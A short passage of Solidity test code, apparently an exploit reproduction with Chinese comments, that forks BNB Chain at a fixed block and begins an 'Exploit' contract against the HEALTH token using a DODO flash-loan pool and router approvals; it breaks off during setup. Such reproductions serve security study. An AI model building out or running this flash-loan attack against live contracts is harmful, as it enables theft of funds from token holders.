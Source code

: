 ```
  

// 定义常量

address constant WBNB = 0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c;

address constant HEALTH = 0x32B166e082993Af6598a89397E82e123ca44e74E;

address constant ROUTER = 0x10ED43C718714eb63d5aA57B78B54704E256024E;

address constant FLOAN = 0x0fe261aeE0d1C4DFdDee4102E82Dd425999065F4;

uint256 constant BlockNumber = 22337425;

  

// 定义调用的接口

interface DPPAdvanced {

    function flashLoan(

        uint256 baseAmount,

        uint256 quoteAmount,

        address assetTo,

        bytes calldata data

    ) external;

}

  

// 攻击合约

contract Exploit is Test{

  

// 设置攻击环境

    function setUp() public {

        vm.createSelectFork("bsc", BlockNumber);

        vm.label(HEALTH, "HEALTH");

        // vm.label(victim, "victim");

    }

  

// 攻击函数

    function testAttack() public {

        IERC20(WBNB).approve(address(ROUTER), type(uint).max);

        IERC20(HEALTH).approve(address(ROUTER), type(uint).max);
```